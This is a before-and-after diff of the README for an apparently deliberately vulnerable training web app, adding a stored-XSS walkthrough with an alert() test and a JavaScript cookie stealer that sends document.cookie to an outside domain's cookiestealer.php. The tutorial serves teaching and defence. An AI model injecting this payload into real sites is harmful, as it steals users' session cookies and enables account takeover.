

Before and after one commit to modcomlearning/CyberTestSystem, a Markdown page: README.md, the part around the change. Shown: that part at 80% size. GitHub-like rendering; pictures changed too: image.png (added); blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -68,14 +68,50 @@ Security Frameworks: Leverage security frameworks and libraries that provide bui
 
 
  ### Stored XSS
- Stored XSS, also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application. Reflected XSS involves the reflecting of a malicious script off of a web application, onto a user's browser.
+ Stored XSS, also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application, mostly it ca be stored in the database. This Script will execute when a user visits a Page that fetches the data containing the injected script. Reflected XSS on the other hand involves the reflecting of a malicious script off of a web application, onto a user's browser.
 
  This application also demonstrates stored XSS scenario and their Protection.
 
 
+ To test stored XSS in this application, Login to the application as a user, Navigate to Add Messages, Type the Message Title as "Request for Permission". In the Message Body Type a message which includes a Javascript code.. We will assume below code could be malicious. <br>
+
+       I was requesting for an off.
+        <script>alert("Hello JS");</script>
+       Thank you.
+
+Please confirm in the messages table in your database that the Above script has been saved as it is.
+This is what is called injected Script, The Attacker pretends to be posting a Message but instead the message is accompanied by some malicious code.
+<br>
+Now, logout and login as admin, assuming the admin want to read the posted messages.
+Once logged in as admin, click view messages.
+<br>
+What happens?<br>
+The Javascript injected or stored in one of the messages, executes!
+<br>
+![Alt text](image.png)
+<br>
+This means the attacker manages to execute their codes in your own application!
+<br>
+It also means the attacker can inject/plant a malicious code that could either; <br>
+1. Steal User cookies and sessions <br>
+2. Encrypt/Delete some data<br>
+3. Any other malicious code.<br>
+
+
+Here is an example of Javascript Cookie stealer that can be injected and stored, Once it executes it could steal user session data in the browser<br>
+
+Below code we steal victim's data stored in browser, i.e sessions and send to the attacker through https://coding.co.ke/ss/ domain. <br>
+
+Try Inject below code as a message in our App<br>
+
+      <script>
+         document.location='https://coding.co.ke/ss/cookiestealer.php?c='+document.cookie;
+      </script>
+
+
 
  ### XSS Protection
- o protect against stored XSS, follow these best practices:
+ To protect against stored XSS, follow these best practices:
 
 1. Input Validation and Sanitization<br>
 Whitelist Input Validation: Only allow expected inputs. For example, if a field is expected to contain only numbers, ensure that it contains only numbers.
```
Also changed, not shown: 1 other file.
